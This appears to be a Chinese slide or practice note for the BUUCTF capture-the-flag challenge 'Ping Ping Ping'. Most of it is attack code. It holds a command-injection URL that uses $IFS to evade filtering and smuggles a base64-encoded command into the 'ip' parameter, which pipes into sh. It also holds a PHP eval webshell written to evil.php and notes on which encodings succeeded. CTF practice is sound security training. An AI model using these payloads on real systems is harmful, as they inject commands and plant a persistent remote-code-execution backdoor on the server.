

练习时间
BUUCTF-[GXYCTF2019]Ping Ping Ping		尝试写入webshell
http://8808bb8c-e4a9-42c9-8131-42ac7d7ffcfa.node5.buuoj.cn:81/?ip=127.0.0.1;echo$IFS$1ZWNobyAiPD9waHAgICBAZXZhbChcJF9QT1NUWydhJ10pPz4iPmV2aWwxLnBocA==|base64$IFS$1-d|sh
echo "<?php @eval(\$_POST['a'])?>">evil.php

忘了为什么要写这些了（
echo "echo\$IFS\$1\"<?php @eval(\\\$_POST['cmd']);?>\">evil1.php"|base64  √
echo "echo "<?php @eval(\\\$_POST['cmd']);?>\">evil1.php"|base64  ×
echo "echo \"1 2\""|base64  √